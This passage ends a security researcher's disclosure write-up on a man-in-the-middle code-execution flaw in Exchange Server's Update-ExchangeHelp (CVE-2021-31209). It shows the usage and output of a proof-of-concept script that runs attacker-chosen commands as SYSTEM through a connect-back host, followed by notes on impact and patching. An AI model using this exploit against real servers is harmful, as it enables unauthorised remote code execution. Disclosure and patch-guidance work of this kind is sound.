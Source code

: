 Now we ping the target (to update the targets cached Arp table) and run the `poc.py` and wait for an administrative user to run `Update-ExchangeHelp` or `Update-ExchangeHelp -Force` in the Exchange Management Console (EMC) (`-Force` is required if the `Update-ExchangeHelp` command has been ran within the last 24 hours):

```
researcher@pluto:~/poc-exchange$ ./poc.py 
(+) usage: ./poc.py <target> <connectback> <revision> <cmd>
(+) eg: ./poc.py 192.168.0.142 192.168.0.56 1337 mspaint
(+) eg: ./poc.py 192.168.0.142 192.168.0.56 1337 "whoami > c:/poc.txt"

researcher@pluto:~/poc-exchange$ ./poc.py 192.168.0.142 192.168.0.56 1337 mspaint
(+) server bound to port 8000
(+) targeting: 192.168.0.142 using cmd: mspaint
(+) delivering xml file...
(+) delivering cab file...
(+) executed mspaint as SYSTEM!
```

<iframe src="https://player.vimeo.com/video/503200167" width="640" height="360" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" allowfullscreen></iframe>

---

## Conclusion

It's not the first time that a [MiTM attack has been used at Pwn2Own](https://www.zerodayinitiative.com/advisories/ZDI-20-705/) and it was nice to find a vulnerability that had no collision with other researchers at the competition. This was only possible by finding a new vector and/or surface to hunt vulnerabilities in within Exchange Server. Logical vulnerabilities are always interesting because it almost always means that exploitation is given, and those same issues are very hard to discover with traditional automated tools. It is argued that all web vulns are in fact, logical in nature. Even web-based injection vulns, since they require no manipulation of memory, and the attack can be repeated ad hoc.

The impact of this vulnerability in Exchange server is quite high since the EMC connects via PS-Remoting to the IIS service which is configured to run as SYSTEM. This is not the case for SharePoint Server where the SharePoint Management Shell (SMS) is directly impacted, achieving code execution as the user running the SMS.

Microsoft patched this issue as [CVE-2021-31209](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31209) and we recommend you deploy the patch immediately if you have not done so already.

## References

- [https://www.zerodayinitiative.com/advisories/ZDI-21-615/](https://www.zerodayinitiative.com/advisories/ZDI-21-615/)
- [https://www.zerodayinitiative.com/advisories/ZDI-21-826/](https://www.zerodayinitiative.com/advisories/ZDI-21-826/)

